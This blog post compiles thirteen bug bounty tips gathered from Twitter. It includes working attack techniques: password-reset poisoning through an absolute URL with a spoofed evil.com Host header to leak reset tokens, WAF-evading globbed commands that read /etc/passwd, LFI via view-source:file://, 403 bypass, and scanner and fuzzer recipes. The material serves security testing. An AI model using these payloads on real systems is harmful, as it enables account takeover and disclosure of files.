

# Bug Bounty Tips #9

It’s time for another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing their knowledge for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 9th part and in each part we are publishing 10 or more tips. Let’s start!

## 1\. Bypass 403 errors by traversing deeper

By [@vict0ni](https://twitter.com/vict0ni)  
Source: [link](https://twitter.com/vict0ni/status/1323586836082642944)

If accessing “/.git” directory returns 403 Forbidden, try accessing a common subdirectory like “/.git/config”. Chances are that it will be accessible.

This is because a forbidden directory doesn’t necessarily mean that access to all subdirectories and files in the directory is forbidden as well! Keep this in mind while bug hunting.

**Protip**: Check also related tips [BBT8-11](https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/#11-tips-on-bypassing-403-and-401-errors), [BBT6-6](https://www.infosecmatter.com/bug-bounty-tips-6-sep-07/#6-trick-to-access-admin-panel-by-adding-20), [BBT4-5](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#5-access-admin-panel-by-tampering-with-uri) and [BBT4-6](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#6-bypass-403-forbidden-by-tampering-with-uri) for bypassing 403 Forbidden and 401 Unauthorized errors.

## 2\. Prevent accidental copy & paste errors in terminal

By [@nil0x42](https://twitter.com/nil0x42)  
Source: [link](https://twitter.com/nil0x42/status/1323949856067637248)

The following tip is a prevention from unintentionally executing commands on your system in case you accidentally pasted a multi-line text into your terminal window.

Simply add this into your ~/.inputrc file:

```bash
set enable-bracketed-paste
```

Or just run this one-liner to add it:

```bash
echo "set enable-bracketed-paste" >> ~/.inputrc && bind -f ~/.inputrc
```

Now if you accidentally paste a multi-line text into your terminal, it will NOT get executed and you will save yourself from a potential disaster or at least littering your shell history with garbage.

## 3\. Full-featured JavaScript recon automation (JSFScan.sh)

By [@KathanP19](https://twitter.com/KathanP19) (via [@nil0x42](https://twitter.com/nil0x42))  
Source: [link](https://twitter.com/nil0x42/status/1321743432444973056)

There’s a new cool project in town for a comprehensive JavaScript analysis called [JSFScan.sh](https://github.com/KathanP19/JSFScan.sh). It has the following features:

1.  Gather JSFile links from different sources
2.  Import files containing JSUrls
3.  Extract endpoints from JSFiles
4.  Find secrets stored in JSFiles
5.  Get JSFiles store locally for manual analysis
6.  Make a wordlist from JSFiles
7.  Extract variable names from JSFiles for possible XSS
8.  Scan JSFiles for DOM-based XSS

Here’s how to use it:

```bash
bash JSFScan.sh -l targets.txt -e -s -m -o outdir
```


Make sure that the targets.txt file contains a list of URLs each nicely prefixed with the http:// or https:// protocol identifier, for a smooth operation.

Results from the tool will be displayed on the console and also stored in the specified output folder along with the collected artifacts.

[JSFScan.sh](https://github.com/KathanP19/JSFScan.sh) internally uses the following tools to identify and examine the JavaScript files that it finds during analysis:

-   [Interlace](https://github.com/codingo/Interlace)
-   [SecretFinder](https://github.com/m4ll0k/SecretFinder)
-   [Waybackurls](https://github.com/tomnomnom/waybackurls)
-   [Gau](https://github.com/lc/gau)
-   [SubJS](https://github.com/lc/subjs)
-   [Httpx](https://github.com/projectdiscovery/httpx)
-   [JSBeautify](https://github.com/m4ll0k/Bug-Bounty-Toolz/blob/master/jsbeautify.py)
-   [JSVar.sh](https://gist.githubusercontent.com/KathanP19/d2cda2f99c0b60d64b76ee6039b37e47/raw/eb105a4de06502b2732df9d682c61189c3703685/jsvar.sh)
-   [FinDomXSS.sh](https://gist.githubusercontent.com/KathanP19/9c1a8a322ada7b40462caf6897687cce/raw/3752435180c61ce7af13865b6b3581b49a6c6673/findomxss.sh)
-   [Hakrawler](https://github.com/hakluke/hakrawler)
-   [LinkFinder](https://github.com/dark-warlord14/LinkFinder)
-   [GetJsWords.py](https://github.com/m4ll0k/Bug-Bounty-Toolz/blob/master/getjswords.py)

It is therefore truly a very comprehensive tool. The installation process takes care of everything which makes it very straightforward and easy to use as well.

## 4\. List of 25 tools for detecting XSS

By [@cry\_\_pto](https://twitter.com/cry__pto)  
Source: [link](https://twitter.com/cry__pto/status/1321713875201495040)

Here is a compilation of 25 web application security and pentesting tools that can help with discovering XSS (Cross-Site Scripting) vulnerabilities:

-   [XSSer](https://github.com/epsylon/xsser) – Cross Site “Scripter” is an automatic framework to detect, exploit and report XSS vulnerabilities in web-based applications
-   [W3af](https://w3af.org/) – Web application attack and audit framework capable of finding many different vulnerabilities, not just XSS
-   [Probely](https://probely.com/) – Commercial website vulnerability scanner with many advanced features and integrations
-   [Powerfuzzer](https://www.powerfuzzer.com/) – Highly automated and fully customizable web fuzzer based on many other open-source fuzzers
-   [Burp Suite](https://portswigger.net/burp) – World leading web application security scanner and toolkit for penetration testers and bug hunters
-   [Netsparker](https://www.netsparker.com/) – Commercial fully integrated, scalable and automated web application security solution
-   [ZAProxy](https://www.zaproxy.org/) – OWASP Zed Attack Proxy (ZAP) is an easy to use integrated penetration testing tool for finding vulnerabilities in web applications
-   [WebScarab](https://wiki.owasp.org/index.php/Category:OWASP_WebScarab_Project) – OWASP WebScarab is a bit dated web application security framework and intercepting proxy tool, but definitely still very usable today
-   [XSStrike](https://github.com/s0md3v/XSStrike) – Advanced XSS detection suite equipped with four hand written parsers, an intelligent payload generator, a powerful fuzzing engine and an incredibly fast crawler
-   [XSScrapy](https://github.com/DanMcInerney/xsscrapy) – Fast, thorough, XSS and SQLi spider. Give it a URL and it will test every link it finds for cross-site scripting and SQL injections
-   [Wfuzz](https://github.com/xmendez/wfuzz) – Powerful web application security fuzzing tool and library for Python capable of finding many different vulnerabilities and misconfigurations
-   [ImmuniWeb On-Demand](https://www.immuniweb.com/products/ondemand/) – Web application penetration testing service based on AI technology delivering tailored remediation guidelines and zero false-positives
-   [Nmap](https://nmap.org/) – NSE scripts for detecting XSS: (1) [http-xssed](https://nmap.org/nsedoc/scripts/http-xssed.html), (2) [http-stored-xss](https://nmap.org/nsedoc/scripts/http-stored-xss.html), (3) [http-phpself-xss](https://nmap.org/nsedoc/scripts/http-phpself-xss.html), (4) [http-dombased-xss](https://nmap.org/nsedoc/scripts/http-dombased-xss.html), (5) [http-unsafe-output-escaping](https://nmap.org/nsedoc/scripts/http-unsafe-output-escaping.html)
-   [JMeter](https://jmeter.apache.org/) – Software mainly for load and stress testing which can also be used as a fuzzer for web application security testing to find XSS and SQLi vulnerabilities
-   [Wapiti](https://wapiti.sourceforge.io/) – Web-application vulnerability scanner capable of identifying many different security vulnerabilities, not only XSS
-   [ZAP-CLI](https://github.com/Grunny/zap-cli) – Command line tool that wraps the OWASP ZAP API for controlling ZAP and executing quick, targeted attacks
-   [Arachni](https://www.arachni-scanner.com/) – Feature-rich, modular, high-performance and multi-platform web application security scanning and testing framework
-   [XSS Hunter](https://xsshunter.com/) – Highly specialized online service for identifying different kinds of XSS vulnerabilities, including blind XSS, with advanced features such as screenshotting etc.
-   [Firebug](https://getfirebug.com/) – Discontinued Firefox extension for live debugging, editing, and monitoring of any website’s CSS, HTML, DOM, XHR, and JavaScript engines
-   [XSSsniper](https://github.com/gbrindisi/xsssniper) – An automatic XSS discovery tool with mass scanning functionalities
-   [Skipfish](https://code.google.com/archive/p/skipfish/) – High-speed web application security reconnaissance tool and vulnerability scanner
-   [KNOXSS](https://knoxss.me/) – Online XSS PoC (Proof of Concept) tool that allows you to find and prove XSS flaws
-   [Acunetix](https://www.acunetix.com/) – Commercial web application security scanner and network vulnerability scanner with many advanced features
-   [Psalm](https://psalm.dev/) – Free and open-source static analysis tool for identifying security problems in PHP applications with many advanced features and plugins for various PHP frameworks
-   [Dalfox](https://github.com/hahwul/dalfox) – Parameter analysis and XSS scanning tool written in Golang with many advanced features

Do you have some other favorite tool for XSS? Please share in the comment section!

## 5\. Password poisoning bypass to account takeover

By [@Debian\_Hunter](https://twitter.com/Debian_Hunter)  
Source: [link](https://twitter.com/Debian_Hunter/status/1321511316507353089)

This bug bounty tip demonstrates a bypass technique for password reset functionalities which can potentially result in ATO (account takeover).

Consider the following 3 requests:

(1) Normal request:

-   Request:  
    `POST /password-reset?user=123 HTTP/1.1   Host: target.com`
-   Link received:  
    `https://target.com/reset-link=1g2f3guy23g`

(2) Basic HHI (Host Header Injection):

-   Request:  
    `POST /password-reset?user=123 HTTP/1.1   Host: evil.com`
-   Link received:  
    `none   Error 404 - request blocked`

(3) Bypass technique:

-   Request:  
    `POST https://target.com/password-reset?user=123 HTTP/1.1   Host: evil.com`
-   Link received:  
    `https://evil.com/reset-link=1g2f3guy23g`

Notice that in bypass we have used absolute URL in the POST request. In such case the Host header should be completely ignored. However, some back-end systems still process it while the front-end don’t – simply an inconsistency.

If successful, this can lead to high severity bugs causing reset token leakage and consequently account takeover and privilege escalation. [Here](https://hackerone.com/reports/226659) is a real bug report describing the impact nicely in detail.

## 6\. Useful regex for subdomain level extraction

By [@imranparray101](https://twitter.com/imranparray101)  
Source: [link](https://twitter.com/imranparray101/status/1320951556410241024)

Higher level subdomains typically tend to be more vulnerable than lower level subdomains. Here is a tip on how to grep for a specific level of subdomains from a list of subdomains:

```bash
cat subdomains.txt | grep -P '^(?:[a-z0-9]+\.){MIN,MAX}[^.]*$'
```

The following table shows what values to provide in the regex in order to match the desired domain levels:

| Regex pattern | Domain level match |
| --- | --- |
| `grep -P '^(?:[a-z0-9]+\.){1}[^.]*$'` | 2nd level domains only |
| `grep -P '^(?:[a-z0-9]+\.){2}[^.]*$'` | 3rd level domains only |
| `grep -P '^(?:[a-z0-9]+\.){2,}[^.]*$'` | 3rd level domains or higher |
| `grep -P '^(?:[a-z0-9]+\.){2,3}[^.]*$'` | 3rd to 4th level domains only |
| `grep -P '^(?:[a-z0-9]+\.){3,}[^.]*$'` | 4th level domains or higher |

Here’s an example of matching only 4th level domains from a list of subdomains:

```bash
cat subdomains.txt | grep -P '^(?:[a-z0-9]+\.){3}[^.]*$'
```


This could be useful for prioritizing the work during bug hunting or pentesting when having a large list of targets.

## 7\. Find XSS in Java applications in Boolean values

By [@ShawarkOFFICIAL](https://twitter.com/ShawarkOFFICIAL)  
Source: [link](https://twitter.com/ShawarkOFFICIAL/status/1323368182388871169)

If a Java-based website is fully protected against XSS attacks, look for parameters having Boolean values (true / false), e.g. Sales=true, configure=false etc.

Most of the Java applications convert type \[java.lang.String\] to \[java.lang.Boolean\] and return error if expected type is not provided.

If such parameters are replaced with XSS payloads, it is possible to cause an exception that will return user input unfiltered:

```bash
Failed to convert property value of type [java.lang.String] to required type [java.lang.Boolean] for property 'vulnerableParameter'; nested exception is java.lang.IllegalArgumentException: Invalid boolean value [woot3<xss>]
```

An example screenshot:


## 8\. WAF bypass using globbing

By [@rizasabuncu](https://twitter.com/rizasabuncu)  
Source: [link](https://twitter.com/rizasabuncu/status/1323270904198139904)

If there is a WAF (Web Application Firewall) filtering your RCE (Remote Code Execution) and LFI (Local File Inclusion) payloads, you can try to bypass it with globbing.

Here’s an example:

```bash
/usr/bin/cat /etc/passwd ==  /???/???/c?t$IFS/?t?/p?s?wd
```

Globbing is a form of pattern expansion which is used for matching of a particular path and it uses the following wildcards to do so:

-   ? = any single character
-   \* = any string, including zero length string!

Globbing works on all popular platforms including Windows (CMD, PowerShell), UNIX and Mac. On UNIX platforms, we can also use the $IFS special variable to substitute whitespaces:

-   $IFS = Internal Field Separator = \[space\], \[tab\] or a \[newline\]

For instance, all these should execute “/bin/cat /etc/passwd” on a typical Linux system:

```bash
/*/?at$IFS/???/???swd
/****/?at$IFS/???/*swd
/****/?at$IFS/???/*******swd
```

Try it!

## 9\. Scan Jira for known CVEs and misconfigurations

By [@pdnuclei](https://twitter.com/pdnuclei)  
Source: [link](https://twitter.com/pdnuclei/status/1326454170476548096)

Have you found a target running Jira application? Here is how you can easily check for multiple known CVEs and misconfigurations in Jira using [nuclei](https://github.com/projectdiscovery/nuclei) scanner workflow:

```bash
echo http://jira.targetsite.com | nuclei -t workflows/jira-exploitaiton-workflow.yaml
```


Nice and easy wins.

To see what all checks are performed, have a look on the actual Jira workflow here:

-   [https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-exploitation-workflow.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-exploitation-workflow.yaml)

Note that there are workflows for many other apps, not just for Jira. You can also easily write/add your custom checks as well.

**Protip**: Make sure to update your templates every now and then. Here’s how easy it is:

```bash
nuclei -update-templates
```

That’s it!

Get nuclei here:

-   [https://github.com/projectdiscovery/nuclei](https://github.com/projectdiscovery/nuclei)

## 10\. Calculate favicon hash value for favicon recon

By [@kalimer0x00](https://twitter.com/kalimer0x00) (via [@intigriti](https://twitter.com/intigriti))  
Source: [link](https://twitter.com/intigriti/status/1324701841465221120)

Here’s a useful command to calculate hash of a favicon on an arbitrary URL:

```bash
curl -s -L -k https://gitlab.com/favicon.ico | python3 -c 'import mmh3,sys,codecs; print(mmh3.hash(codecs.encode(sys.stdin.buffer.read(),"base64")))'
```



Note that you have to install the [mmh3](https://pypi.org/project/mmh3/) python package for the above command to work:

```bash
pip3 install mmh3
```

After obtaining the favicon hash value, we could look it up e.g. using [Shodan](https://shodan.io/) search engine and discover other web sites with the same favicon hash:

```bash
shodan search http.favicon.hash:1278323681
```


Could be handy indeed!

**Protip**: Check also these previously published tips related to favicons:

-   [BBT2-6](https://www.infosecmatter.com/bug-bounty-tips-2-jun-30/#6-find-spring-boot-servers-with-shodan) – Find Spring Boot servers with Shodan
-   [BBT3-3](https://www.infosecmatter.com/bug-bounty-tips-3-jul-21/#3-find-related-domains-via-favicon-hash) – Find related domains via favicon hash
-   [BBT8-8](https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/#8-database-of-500-favicon-hashes-favfreak) – Database of 500 Favicon hashes (FavFreak)

## 11\. Browser-based application LFI via view-source

By [@HusseiN98D](https://twitter.com/HusseiN98D)  
Source: [link](https://twitter.com/HusseiN98D/status/1325464364569276417)

This bug bounty tip is useful for web applications which use a web browser to render an URL that you input to them. For instance, this could be an advertisement preview / data validation function of the web application.

It could also be a web app which takes your URL and screenshots it for you. You could simply find it anywhere where an URL is rendered on the server side.

Alright, now the actual tip:

Naturally as a bug hunter, you are going to try to access “file:///etc/passwd”, right? But what if it is blacklisted or somehow blocked? Try accessing “view-source:file:///etc/passwd” instead!

The “view-source” feature is often forgotten by developers in blacklists.

## 12\. OneListForAll – “Rockyou” wordlist for web fuzzing

By [@Six2dez1](https://twitter.com/Six2dez1)  
Source: [link](https://twitter.com/Six2dez1/status/1327236133680517120)

[OneListForAll](https://github.com/six2dez/OneListForAll) is a giant wordlist for endpoint web fuzzing compiled from some of the best wordlists currently available, lowercased and deduplicated, ready to be used for bug hunting!

The current release v1.0 contains more than 10.3M entries.

Recommended to be used with [ffuf](https://github.com/ffuf/ffuf) web fuzzer, like this:

```bash
ffuf -c -mc all -ac -w onelistforall.txt -u [target.com]/FUZZ
```

It will probably take some time, but the results should be worth it!

Get the latest wordlist from here:

-   [https://github.com/six2dez/OneListForAll/releases](https://github.com/six2dez/OneListForAll/releases)

## 13\. List of 9 tools for identifying sensitive information

By [@payloadartist](https://twitter.com/payloadartist)  
Source: [link](https://twitter.com/payloadartist/status/1323699908872867841)

Here’s a compiled list of 9 tools for identifying secrets, API keys, access tokens and similar sensitive data:

-   [SecretFinder](https://github.com/m4ll0k/SecretFinder)– Python script for finding sensitive data (api keys, access tokens, authorizations, jwt, ..) in JavaScript files
-   [BurpSuite-Secret\_Finder](https://github.com/m4ll0k/BurpSuite-Secret_Finder) – The above project as a Burp Suite extension for finding sensitive data, processing every HTTP response passing through Burp
-   [TruffleHog –](https://github.com/dxa4481/truffleHog) Searches through Git repositories for high entropy strings and secrets, digging deep into commit history
-   [Rusty Hog](https://github.com/newrelic/rusty-hog) – Suite of secret scanners to detect sensitive information such as API keys, passwords, personal information etc. Based on [TruffleHog](https://github.com/dxa4481/truffleHog).
-   [GitHound](https://github.com/tillson/git-hound) – Reconnaissance tool for GitHub code search. Finds exposed API keys using pattern matching, commit history searching and a unique scoring system
-   [Gitrob](https://github.com/michenriksen/gitrob) – Reconnaissance tool for GitHub repositories with many advanced features and a web interface which is very convenient
-   [ShhGit](https://github.com/eth0izzle/shhgit) – Finds committed secrets and sensitive files across GitHub, Gists, GitLab and BitBucket or your local repositories in real time
-   [Git-all-secrets](https://github.com/anshumanbh/git-all-secrets) – Tool to capture all the Git secrets by leveraging multiple open source Git searching tools
-   [Leakin](https://github.com/secopslab/leakin) – Detects secrets based on regular expressions, containing over 770 patterns with ability to process any file or even scan a folder

With these tools no buried secret should remain a secret no more!

## Conclusion

That’s it for this part of the [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/).

Massive thanks to all the authors for sharing their tools and tips:

-   [@vict0ni](https://twitter.com/vict0ni)
-   [@nil0x42](https://twitter.com/nil0x42)
-   [@KathanP19](https://twitter.com/KathanP19)
-   [@cry\_\_pto](https://twitter.com/cry__pto)
-   [@Debian\_Hunter](https://twitter.com/Debian_Hunter)
-   [@imranparray101](https://twitter.com/imranparray101)
-   [@ShawarkOFFICIAL](https://twitter.com/ShawarkOFFICIAL)
-   [@rizasabuncu](https://twitter.com/rizasabuncu)
-   [@pdnuclei](https://twitter.com/pdnuclei)
-   [@kalimer0x00](https://twitter.com/kalimer0x00)
-   [@intigriti](https://twitter.com/intigriti)
-   [@HusseiN98D](https://twitter.com/HusseiN98D)
-   [@Six2dez1](https://twitter.com/Six2dez1)
-   [@payloadartist](https://twitter.com/payloadartist)

Make sure to follow them on Twitter, they will help you stay on top of the bug bounty game!
